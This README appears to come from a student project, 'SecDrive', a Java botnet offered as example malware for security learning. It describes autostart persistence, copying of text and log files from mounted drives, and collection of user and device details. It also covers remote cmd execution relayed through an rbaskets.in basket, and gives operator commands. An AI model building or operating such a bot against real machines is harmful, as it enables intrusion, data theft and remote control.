 # SecDrive
Program works as an example of malware and presenting how botnet application could work. It is a student project and should be use only for Information Networks Security learning purposes.
## How it works
Program runs as "bot" or as "server".
At start Bot copy itself to Windows system autostart location and some archive location.
If drive is mounted it copy txt and log files to specified in code archive location.

Then Bot is getting commands from server, processing it and sending responses. Server is sending commands and getting responses from bots.

Commands and responses:
* say - send a message and waiting for response
    * hello - get a user name, IP address, and Device name from bot.

* viewSite - bot open a web page and send back a page content
    * default - open "https://www.myip.com/"
    * websiteAddress - open given web page

* cmdRun - bot run a cmd command on its Windows system
    * command - command to run
    
Program uses https://rbaskets.in/ basket to send commands and responses.

## How to run it
Simple run Jar file with argument "bot".
After that it is replicating itselft so only run.bat file needs to be run.

On the server site run jar file with parameters:
```
java -jar JarFile.jar server_send say message

java -jar JarFile.jar server_send viewSite default

java -jar JarFile.jar server_send viewSite webAddress

java -jar JarFile.jar server_send cmdRun command
```
### Examples:
```
java -jar JarFile.jar server_send say hello

java -jar JarFile.jar server_send viewSite default

java -jar JarFile.jar server_send viewSite "https://amazon.com"

java -jar JarFile.jar server_send cmdRun "cd C:\ & dir"
```
